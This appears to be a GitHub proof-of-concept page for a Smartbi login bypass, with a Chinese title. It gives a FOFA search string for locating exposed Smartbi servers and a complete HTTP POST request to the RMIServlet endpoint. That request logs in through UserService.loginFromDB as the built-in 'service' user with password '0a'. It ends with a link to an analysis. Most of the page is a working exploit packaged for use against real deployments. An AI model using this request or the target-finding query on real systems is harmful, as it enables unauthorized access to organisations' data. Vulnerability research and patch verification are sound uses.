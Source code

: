## Smartbi 内置用户登陆绕过

## fofa
```
body="gcfutil = jsloader.resolve('smartbi.gcf.gcfutil')"
```

## poc
```
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: 172.16.170.231:18080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

className=UserService&methodName=loginFromDB&params=["service","0a"]
```

![image](https://github.com/wy876/POC/assets/139549762/419e82b7-4236-416d-91ef-74caf533e8ae)


## 漏洞分析
- https://exp.ci/2023/06/17/Smartbi-%E5%86%85%E7%BD%AE%E7%94%A8%E6%88%B7%E7%99%BB%E9%99%86%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/
